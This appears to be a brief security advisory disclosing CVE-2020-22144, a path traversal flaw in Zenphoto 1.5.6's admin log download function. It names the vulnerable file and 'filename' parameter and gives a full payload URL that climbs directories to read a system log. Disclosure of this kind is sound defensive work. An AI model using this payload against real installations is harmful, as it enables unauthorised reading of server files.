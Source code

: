 ```yaml
---
cve: "CVE-2020-22144"
slug: "CVE-2020-22144: Path traversal in Zenphoto"
title: "Path traversal in Zenphoto v1.5.6 and prior"
images: [/images/cve-mitre.png]
date: 2020-02-10
tags:
- cve
- path traversal
- lfd
---
```

An issue in `/zp-core/admin-logs.php` of Zenphoto 1.5.6 allows attackers to perform a directory traversal and read arbitrary log files.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22144

<hr />

**Description:**  
The admin function allows to download log files from the local system that are not suppose to.

**Details:**  
File: `/zp-core/admin-logs.php`  
Parameter: `filename`

**Payload:**  
```
/zp-core/admin-logs.php?action=download_log&page=logs&tab=setup&filename=../../../../../../../../../var/log/alternatives&XSRFToken=bcf89608fdaaa5e293ccd5f83d1614f05bfcbaae
```

**PoC:**  
![cve-2020-22144 Zenphoto path traversal](/images/cve-2020-22144.png)
